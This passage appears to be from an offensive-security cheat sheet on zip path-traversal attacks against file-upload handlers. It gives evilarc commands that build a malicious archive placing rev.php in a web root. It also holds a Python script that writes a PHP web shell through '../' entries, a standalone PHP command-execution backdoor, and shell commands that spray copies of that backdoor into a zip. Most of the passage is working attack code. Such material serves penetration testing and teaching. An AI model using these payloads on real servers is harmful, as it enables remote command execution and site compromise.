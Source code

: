 ```python
# Listing available options
python2 evilarc.py -h
# Creating a malicious archive
python2 evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
```

Additionally, the **symlink trick with evilarc** is an option. If the objective is to target a file like `/flag.txt`, a symlink to that file should be created in your system. This ensures that evilarc does not encounter errors during its operation.

Below is an example of Python code used to create a malicious zip file:

```python
#!/usr/bin/python
import zipfile
from io import BytesIO

def create_zip():
    f = BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
    z.writestr('otherfile.xml', 'Content of the file')
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close()

create_zip()
```

**Abusing compression for file spraying**

For further details **check the original post in**: [https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)

1.  **Creating a PHP Shell**: PHP code is written to execute commands passed through the `$_REQUEST` variable.

    ```php
    <?php
    if(isset($_REQUEST['cmd'])){
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
    }?>
    ```

2.  **File Spraying and Compressed File Creation**: Multiple files are created and a zip archive is assembled containing these files.

    ```bash
    root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
    root@s2crew:/tmp# zip cmd.zip xx*.php
    ```
